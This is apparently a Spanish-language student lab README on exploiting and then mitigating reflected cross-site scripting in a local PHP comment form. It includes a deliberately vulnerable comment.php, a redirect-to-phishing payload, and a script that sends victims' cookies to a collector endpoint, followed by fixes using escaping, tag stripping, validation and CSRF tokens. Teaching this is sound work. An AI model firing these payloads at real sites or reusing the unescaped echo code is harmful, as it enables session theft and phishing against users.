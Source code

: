 # PPS-Unidad3Actividad5-MansurSY

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload>
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usua>
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo >

---
## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

### Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/1edf4de0-b6b5-4105-9105-4bcb88c85aed)

![image](https://github.com/user-attachments/assets/52a1640e-8499-4165-a55a-9dd6768368ca)


Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/xss1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

Ingresar el siguiente código en el formulario:

`<script>alert('XSS ejecutado!')</script>`

![image](https://github.com/user-attachments/assets/07d30bb6-a946-48d6-92ca-3a6fd1ec7bd0)


Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/xss2.png)

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/xss3.png)

![image](https://github.com/user-attachments/assets/52bf6657-b2cd-4ad7-9d9b-6d966ec6ea9d)


**Podemos capturar cookies del usuario (en ataques reales):**
---
Con esto, un atacante podría robar sesiones de usuarios.

~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

![image](https://github.com/user-attachments/assets/520f18eb-d4d5-43a4-aae7-9996ac2d6267)

![](images/xss4.png)

Si lo quieres ver, rea en tu servidor web una carpeta con nombre cookieStealer y copias en el archivo index.php [este archivo php](files/steal.php)

~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
mkdir /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt

~~~

![image](https://github.com/user-attachments/assets/df7ca791-baac-4d02-b559-e0128bbf8e81)


En el archivo cookie.txt del servidor del atacante se habrá guardado los datos de nuestra cookie:

![](images/xss8.png)

![image](https://github.com/user-attachments/assets/d222f252-18a3-458b-9870-2fedb914fed3)

![image](https://github.com/user-attachments/assets/b46f9f93-cb04-4041-bb2f-62f939f1afb1)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>
### **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](files/xss5.png)

![image](https://github.com/user-attachments/assets/7a2ab3f1-077b-434a-8c8f-b6300677f88c)

![image](https://github.com/user-attachments/assets/a9b6da02-d4e5-4798-bace-46c4f431dc70)


Creamos una función filter_string_polyfill que nos va a eliminar todos los caracteres nulos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en texto seguro:
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/0c17a9db-d28d-4b1f-a0c8-cf9bd8c2816e)

![image](https://github.com/user-attachments/assets/14150bce-a0dd-4dc6-8284-7d3ec83bc779)


![](images/xss5.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

![image](https://github.com/user-attachments/assets/d3b9a05c-5562-4806-b57a-22d71decf03f)


Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](files/xss6.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

![image](https://github.com/user-attachments/assets/12565365-0deb-4dc0-b33f-297d42a56cb0)


Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

![image](https://github.com/user-attachments/assets/a358039b-1d24-4e35-9370-bca44b28e953)


**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~

![image](https://github.com/user-attachments/assets/e8afa76f-990e-48c4-9cce-f6648a448259)


Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).
Crea el archivo comment4.php con todas las mitigaciones:
~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

![image](https://github.com/user-attachments/assets/653c9cb5-0149-4a98-a85c-e73614a9270b)


---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

